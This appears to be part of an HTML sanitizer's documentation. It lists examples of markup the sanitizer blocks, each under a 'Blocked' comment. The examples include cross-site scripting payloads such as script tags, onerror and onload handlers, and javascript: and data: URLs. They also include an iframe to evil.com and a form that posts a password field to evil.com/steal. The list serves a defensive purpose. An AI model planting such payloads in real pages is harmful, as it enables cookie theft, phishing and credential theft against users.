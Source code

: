 ### 1. Script Injection

```html
<!-- Blocked -->
<script>
  alert("XSS");
</script>
<img src="x" onerror="alert(1)" />
<svg onload="alert(1)"></svg>
```

### 2. Event Handlers

```html
<!-- Blocked -->
<div onclick="malicious()">Click me</div>
<body onload="steal_cookies()">
  <a href="#" onmouseover="phishing()">Link</a>
</body>
```

### 3. Malicious Protocols

```html
<!-- Blocked -->
<a href="javascript:alert(1)">Link</a>
<iframe src="data:text/html,<script>alert(1)</script>"></iframe>
```

### 4. Frame Injection

```html
<!-- Blocked -->
<iframe src="https://evil.com/phishing">
  <object data="malicious.swf">
    <embed src="exploit.pdf" /></object
></iframe>
```

### 5. Form Injection

```html
<!-- Blocked -->
<form action="https://evil.com/steal">
  <input name="password" />
</form>
```

### 6. Style-based Attacks

```html
<!-- Blocked -->
<style>
  body {
    background: url("javascript:alert(1)");
  }
</style>
<link rel="stylesheet" href="javascript:alert(1)" />
```
